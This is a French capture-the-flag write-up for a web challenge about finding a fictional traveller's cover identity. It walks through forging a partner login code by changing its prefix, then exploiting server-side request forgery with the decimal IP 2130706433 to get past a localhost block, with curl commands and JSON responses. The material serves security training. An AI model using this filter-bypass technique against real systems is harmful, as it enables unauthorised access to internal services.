

# The Passenger — Northline Transit (Web, 50 pts, q:3)

## Objectif

Retrouver l'identité sous laquelle Thomas Crown prépare son départ.

Cible : `http://172.28.35.2:8080` (IP variable selon l'instance).

## 1. Accès au portail partenaire

Le reçu `recu_northline.png` donne la référence `NL-24-7K42` et un QR code
`TRK.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e`.




Le format des codes est `PREFIX.identifiant.intégrité`. En remplaçant `TRK`
par `PRT`, on obtient le code partenaire :

```text
PRT.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e
```

```bash
curl -s -c cookies -X POST \
  -d 'code=PRT.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e' \
  http://172.28.35.2:8080/login
# 302 /dashboard
```

## 2. Service de dispatch local

Le formulaire `/waybills` accepte une `source_url` et le serveur la récupère.
Le validateur n'autorise que le port 8081 et bloque `127.0.0.1`/`localhost`.
On atteint le sidecar local avec la forme décimale :

```text
http://2130706433:8081/
```

La spécification du service est sur `/docs` :

```text
GET /api/shipments/<reference>
GET /api/operations/<operation_id>
GET /api/operations/<operation_id>/assignments
GET /flag
```

## 3. Expédition et opération

```bash
curl -s -b cookies -X POST \
  --data-urlencode 'source_url=http://2130706433:8081/api/shipments/NL-24-7K42' \
  http://172.28.35.2:8080/waybills
```

Réponse (extrait) :

```json
{"reference":"NL-24-7K42","operation":"OP-24-7319",
 "origin":"Skarvik","destination":"Tervalis","owner":"partner-1042"}
```

## 4. Dossier de coordination

```bash
curl -s -b cookies -X POST \
  --data-urlencode 'source_url=http://2130706433:8081/api/operations/OP-24-7319' \
  http://172.28.35.2:8080/waybills
```

Le dossier `OP-24-7319` contient :

```json
{
  "operation_id": "OP-24-7319",
  "shipment_reference": "NL-24-7K42",
  "traveller": {
    "identity": "Thomas Crown",
    "cover_name": "Elias Vinter",
    "traveller_id": "PAX-2048"
  },
  "destination": {
    "location": "Terminal maritime de Skarvik",
    "meeting_point": "Hangar C4 — quai de service nord",
    "final_destination": "Îles d'Aster"
  }
}
```

L'historique des affectations confirme le départ :

```bash
curl -s -b cookies -X POST \
  --data-urlencode 'source_url=http://2130706433:8081/api/operations/OP-24-7319/assignments' \
  http://172.28.35.2:8080/waybills
```

```json
{"assignments":[
  {"id":"ASG-318","status":"active","vehicle":"Fourgon bleu nuit",
   "registration":"NV-482-KR","support_id":"NV-USB-84F2",
   "meeting_point":"Hangar C4 — quai de service nord"}
]}
```

## 5. Réponse

L'identité de couverture est **Elias Vinter** (`PAX-2048`), pour le compte de
Thomas Crown. Le flag exact n'est pas recopié ici.

## 6. Pièges

- Le code du dashboard est un leurre pour la q:1 ; il correspond à la q:2.
- Le service de dispatch est sur le port 8081, pas 8182.
- `127.0.0.1` et `localhost` sont bloqués ; utiliser `2130706433`.
- Le dossier de coordination est accessible via `OP-24-7319`, pas directement
  par la référence d'expédition.
